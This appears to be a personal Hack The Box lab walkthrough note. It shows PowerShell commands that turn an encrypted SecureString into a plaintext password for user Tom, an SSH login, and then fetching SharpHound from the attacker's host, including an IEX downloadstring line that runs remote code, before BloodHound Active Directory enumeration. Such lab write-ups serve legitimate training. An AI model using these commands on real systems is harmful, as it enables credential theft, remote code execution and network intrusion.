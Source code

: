 
Password
```
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692
```

```
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
```

```
$user = "HTB\Tom"
```

```
$cred = New-Object System.Management.Automation.PSCredential($user,$pass)
```

```
$cred.GetNetworkCredential() | fl
```

![[Pasted image 20240510125918.png]]

```
1ts-mag1c!!!
```


Now will try to get an SSH shell
```
ssh tom@10.10.10.77
```

![[Pasted image 20240510130253.png]]

This means we have to run Bloodhound for that we have to use SharpHound.ps1
```
IWR -Uri http://10.10.16.20/SharpHound.ps1 -OutFile SharpHound.ps1
```

or
```
IEX (New-Object Net.Webclient).downloadstring("http://10.10.16.20/SharpHound.ps1")
```

Not able to run the Bloodhound from the sharp hound function will see what mistake i am doing . Refer the PDF once to see how they have run the bloodhound.
```
Invoke-BloodHound -CollectionMethod All
```

